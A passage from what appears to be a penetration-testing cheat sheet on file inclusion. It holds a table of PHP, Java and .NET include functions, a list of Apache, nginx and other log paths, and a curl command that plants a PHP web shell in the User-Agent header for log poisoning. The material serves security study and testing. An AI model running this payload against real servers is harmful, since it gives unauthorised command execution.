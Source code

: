 Windows:
```
/seclists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt
```
### File Inclusion

Credits:
[PayloadsAllTheThings - File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

[HTB Academy - File Inclusion](https://academy.hackthebox.com/course/preview/file-inclusion)

|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|✅|✅|✅|
|`file_get_contents()`|✅|❌|✅|
|**Java**||||
|`import`|✅|✅|✅|
|**.NET**||||
|`@Html.RemotePartial()`|✅|❌|✅|
|`include`|✅|✅|✅|
#### Local File Inclusion

##### Log Poisoning

The following log files are controllable and can be included with an evil payload to achieve a command execution

```
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
```

Poison the User-Agent in access logs:
```
curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
```

NOTE: The logs will escape double quotes so use single quotes for strings in the PHP payload.
